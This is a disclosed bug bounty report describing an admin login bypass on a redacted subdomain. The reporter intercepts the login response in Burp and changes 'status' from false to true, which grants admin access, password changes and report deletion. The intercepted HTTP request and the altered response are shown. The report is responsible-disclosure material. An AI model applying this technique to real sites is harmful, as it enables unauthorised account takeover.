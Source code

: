 # Admin Authentication Bypass Lead to Admin Account Takeover 

## Report Details
- **Report ID**: 1490470
- **URL**: https://hackerone.com/reports/1490470
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-02-24T04:34:21.010Z
- **Disclosed**: 2022-06-20T00:18:15.085Z

## Reporter
- **Username**: 7odamoo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ups

## Vulnerability Information
Hello Team

I found that i can bypass the login page of the Admin account by intercepting the respone of the login request of ```█████``` subdomain and change ```status``` from ```false``` to ```true```

## Steps To Reproduce:

  1. Open ```████```
  2. Enter ```Admin``` as a Username  and ```███``` as a password 

█████

  3. Press log in and Intercept the request in Burp
```
POST /api/Account/Login/ HTTP/2
Host: ███████
Cookie: ███
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 38
Origin: ████████
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"UserName":"██████","Password":"██████████"}
```

  4. Intercept the response for this request in Burp by >> ```Do Intercept >>Response to this request``` and then Forward this request
  5. Change ```status``` value from ```false``` to ```true``` and Forward the request

```
HTTP/2 200 OK
Cache-Control: no-cache,no-cache,no-store
Pragma: no-cache,no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Server: 
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Referrer-Policy: no-referrer
Strict-Transport-Security: max-age=31536000; includeSubDomains;preload
X-Frame-Options: DENY
X-Ua-Compatible: IE=Edge
Content-Security-Policy: script-src 'self'; object-src 'self'; frame-ancestors 'none'
Expect-Ct: enforce, max-age=7776000, report-uri='███-Allow-Origin: ██████-Allow-Headers: Accept, Content-Type, Origin
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Date: ████ ██████ GMT
Content-Length: 71

{"status":true,"errorMessage":"Username and Password does not match."}
```


  6. Now open ```Report``` , ```Change Password``` and  ```Process Return``` and then Turn off the intercept of the Burp

██████████
█████████
███████

## Supporting Material/References:

POC Video

█████████

## Impact

The attacker can 
- login as an ██████ by bypassing the authentication  
- change the ███ password to takeove the ███ account
- View the company's reports and delete them [1066 Report]
- View processReturn

## Attachments
No attachments
